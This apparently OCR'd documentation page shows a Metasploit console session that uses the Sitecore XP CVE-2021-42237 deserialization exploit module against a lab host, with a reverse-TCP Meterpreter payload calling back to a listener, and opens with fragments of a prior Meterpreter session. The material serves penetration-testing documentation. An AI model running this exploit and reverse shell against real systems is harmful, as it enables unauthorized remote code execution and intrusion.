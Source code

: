 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```


### Sitecore 8.2 rev. 180406 on Server 2016 - Windows Command

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/sitecore_xp_cve_2021_42237
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > check
```